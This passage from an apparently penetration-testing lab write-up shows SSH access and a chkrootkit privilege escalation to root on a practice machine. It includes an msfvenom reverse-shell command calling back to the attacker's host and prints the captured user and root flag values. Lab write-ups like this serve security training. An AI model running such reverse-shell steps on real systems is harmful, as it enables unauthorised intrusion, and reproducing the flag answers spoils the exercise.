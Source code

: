 9. I copied these keys to my Kali machine, set the private key to chmod 600 and referenced it to connect to the server via SSH:

   ```bash
   chmod 600 ssh_key
   ssh -i ~/htblab/oscp_like/43/ssh_key amrois@10.10.10.43
   ```

10. After connecting to the server, I ran Linpeas to find I had access to a script /usr/sbin/report-reset.sh which cleaned up the folder /report.  This led me to check out the reports in this folder and Googling some lines from the report let me know it was being generated by chkrootkit.  I searched for vulnerabilities for chkrootkit and found a privilege escalation vulnerability for it described here:  https://www.exploit-db.com/exploits/33899

11. Following the vulnerability instructions, I started a netcat listener, created a reverse shell executable, uploaded it to the target, renamed it /tmp/update, then waited for chkrootkit to run again to get a root shell:

    ```bash
    # Generated reverse shell on Kali
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.29 LPORT=8000 -f elf -o lin_revtcp_8000.elf
    ```

    ![image-20201025200800088](.Report.assets/image-20201025200800088.png)

12. From this root shell, I was able to view the contents of user.txt and root.txt
    ![image-20201025200915323](.Report.assets/image-20201025200915323.png)
    user.txt: 82a864f9eec2a76c166ec7b1078ca6c8
    root.txt: 8a2b4956612b485720694fb45849ec3a
